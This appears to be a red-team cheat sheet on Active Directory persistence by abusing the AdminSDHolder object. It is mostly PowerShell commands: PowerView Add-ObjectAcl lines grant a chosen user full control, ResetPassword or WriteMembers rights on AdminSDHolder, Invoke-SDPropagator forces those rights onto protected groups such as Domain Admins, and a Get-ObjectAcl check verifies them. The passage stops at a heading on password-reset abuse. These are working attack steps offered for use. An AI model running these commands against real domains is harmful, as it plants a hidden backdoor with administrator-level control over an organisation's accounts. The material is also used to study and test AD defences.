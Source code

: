 * Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups).

* Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.

## <span style="color:lightgreen">Invoke-SDPropagator</span>

### <span style="color:#F1C232">Run SDProp manually</span>
 
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

### <span style="color:#F1C232">For Pre-Server 2008 machines</span>
 
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

## <span style="color:lightgreen"> Powerview (DEV branch)</span>

### <span style="color:#F1C232">Add full control permissions for a user to the AdminSDHolder</span>
 
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights All -Verbose
```

### <span style="color:#F1C232">Other Interesting permissions ( Reset-password, Write-members) for a user to the AdminSDHolder</span>
 
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights ResetPassword -Verbose
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights WriteMembers -Verbose
```

### <span style="color:#F1C232">Check Domain Admin perms</span>
 
```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}
```

### <span style="color:#F1C232">Abusing ResetPassword/ForceChangePassword</span>
 